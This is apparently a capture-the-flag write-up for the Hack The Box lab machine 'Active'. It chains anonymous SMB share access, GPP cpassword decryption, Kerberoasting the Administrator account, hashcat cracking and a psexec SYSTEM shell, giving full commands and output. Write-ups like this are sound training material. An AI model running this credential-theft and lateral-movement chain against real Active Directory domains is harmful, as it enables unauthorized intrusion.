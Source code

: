 # Active

> Active is an easy windows machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
> 

---

# Summary

We start enumeration from an unauthenticated standpoint, we find that null authentication is enabled and that we have the permissions to read a share called `Replication`.

Inside that share, we find a very interesting file called `Groups.xml` which is known to be used when **Group Policy Preferences (GPP)** is configured.

The file contains an encrypted `cpassword` attribute for user `svc_tgs`, which can be decrypted using `gpp-decrypt`.

After we gain access in Active Directory through `svc_tgs` user, some bloodhound enumeration shows that `Administrator` is kerberoastable, after requesting the `TGS` for administrator we crack the password using `hashcat` and get `NT AUTHORITY/SYSTEM` access on the Domain Controller using `psexec` to retrieve the flags.

---

# Initial Foothold

## Enumerating Shares

SMB Null Auth was enabled on the machine, so we will start with enumerating the available shares and see what shares can we read

```bash
└─$ netexec smb $(cat ip) -u "" -p "" --shares                                             
SMB         10.129.100.141  445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.141  445    DC               [+] active.htb\: 
SMB         10.129.100.141  445    DC               [*] Enumerated shares
SMB         10.129.100.141  445    DC               Share           Permissions     Remark
SMB         10.129.100.141  445    DC               -----           -----------     ------
SMB         10.129.100.141  445    DC               ADMIN$                          Remote Admin
SMB         10.129.100.141  445    DC               C$                              Default share
SMB         10.129.100.141  445    DC               IPC$                            Remote IPC
SMB         10.129.100.141  445    DC               NETLOGON                        Logon server share 
SMB         10.129.100.141  445    DC               Replication     READ            
SMB         10.129.100.141  445    DC               SYSVOL                          Logon server share 
SMB         10.129.100.141  445    DC               Users
```

We found a share called `Replication`, which we have `READ` permission over.

## Enumerating the share

NetExec has a module called `spider_plus` which will go over the share and enumerate all the files that our user can read, and list these files in JSON format.

Here, we specify the `-M` for telling NetExec that we want to use the `spider_plus` module, and that we want to run it on the `Replication` share.

```bash
└─$ netexec smb $(cat ip) -u "" -p "" -M spider_plus --share Replication
SMB         10.129.100.141  445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.141  445    DC               [+] active.htb\: 
SPIDER_PLUS 10.129.100.141  445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.100.141  445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.100.141  445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.100.141  445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.100.141  445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.100.141  445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.100.141  445    DC               [*]  OUTPUT_FOLDER: /home/kali/.nxc/modules/nxc_spider_plus
SMB         10.129.100.141  445    DC               [*] Enumerated shares
SMB         10.129.100.141  445    DC               Share           Permissions     Remark
SMB         10.129.100.141  445    DC               -----           -----------     ------
SMB         10.129.100.141  445    DC               ADMIN$                          Remote Admin
SMB         10.129.100.141  445    DC               C$                              Default share
SMB         10.129.100.141  445    DC               IPC$                            Remote IPC
SMB         10.129.100.141  445    DC               NETLOGON                        Logon server share 
SMB         10.129.100.141  445    DC               Replication     READ            
SMB         10.129.100.141  445    DC               SYSVOL                          Logon server share 
SMB         10.129.100.141  445    DC               Users                           
SPIDER_PLUS 10.129.100.141  445    DC               [+] Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.129.100.141.json".
SPIDER_PLUS 10.129.100.141  445    DC               [*] SMB Shares:           7 (ADMIN$, C$, IPC$, NETLOGON, Replication, SYSVOL, Users)
SPIDER_PLUS 10.129.100.141  445    DC               [*] SMB Readable Shares:  1 (Replication)
SPIDER_PLUS 10.129.100.141  445    DC               [*] Total folders found:  22
SPIDER_PLUS 10.129.100.141  445    DC               [*] Total files found:    7
SPIDER_PLUS 10.129.100.141  445    DC               [*] File size average:    1.16 KB
SPIDER_PLUS 10.129.100.141  445    DC               [*] File size min:        22 B
SPIDER_PLUS 10.129.100.141  445    DC               [*] File size max:        3.63 KB
```

As we see from this line

```bash
Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.129.100.141.json".
```

the files was saved under `/home/kali/.nxc/modules/nxc_spider_plus/10.129.100.141.json`.

Upon reading that file, we notice that the share has a very interesting file called `Groups.xml`.

```bash
<SNIP>
"active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "533 B"
        }
<SNIP>
```

This file means that Group Policy Preferences (GPP) is configured.

### What is Group Policy Preferences (GPP)?

GPP was introduced with the release of Server 2008 and enhance Group Policy by allowing administrators to configure additional settings beyond standard policy options.
When an admin used **Group Policy Preferences (GPP)** to set a local user or group password, the password was stored in **Groups.xml inside a tag called `cpassword`.**

The `cpassword` is encrypted, but Microsoft shared the AES key used to encrypt the password in their [documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN). Which means anyone can decrypt the password.

### Downloading the file & Decrypting the password

```bash
└─$ smbclient -N //$(cat ip)/Replication
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as Groups.xml (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

Upon reading the file, we can see the `cpassword` for `svc_tgs` user.

```xml
<SNIP>
name="active.htb\SVC_TGS" i
<SNIP>
cpassword="ed<REDACTED>mQ"
<SNIP>
```

Decrypting the password using `gpp-decrypt`, not we have a set of credentials `svc_tgs:GP<REDACTED>18`.

```bash
└─$ gpp-decrypt ed<REDACTED>mQ
GP<REDACTED>18
```

# Privilege Escalation

## Gathering BloodHound Data

Using the foothold to enumerate AD using bloodhound.

```bash
└─$ sudo bloodhound-python -u 'svc_tgs' -p 'GP<REDACTED>18' -ns $(cat ip) -d active.htb -c all
```

After uploading data to bloodhound, we found that the administrator account is kerberoastable

![image.png](image.png)

## Kerberoasting `Administrator` using `GetUserSPNs`

```bash
└─$ impacket-GetUserSPNs -dc-ip $(cat ip) active.htb/svc_tgs -request-user administrator -outputfile administrator_tgs
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2025-09-01 13:47:21.242545             

[-] CCache file is not found. Skipping...
```

## Cracking the Hash using Hashcat

```bash
└─$ hashcat -a 0 -m 13100 administrator_tgs /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$418a<REDACTED>1bbb:Ti<REDACTED>68
<SNIP>
```

We got the password `Ti<REDACTED>68`

# Gaining Access

```bash
└─$ impacket-psexec active.htb/administrator:'Ti<REDACTED>68'@$(cat ip)  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.100.141.....
[*] Found writable share ADMIN$
[*] Uploading file CZBuECdy.exe
[*] Opening SVCManager on 10.129.100.141.....
[*] Creating service LNnx on 10.129.100.141.....
[*] Starting service LNnx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
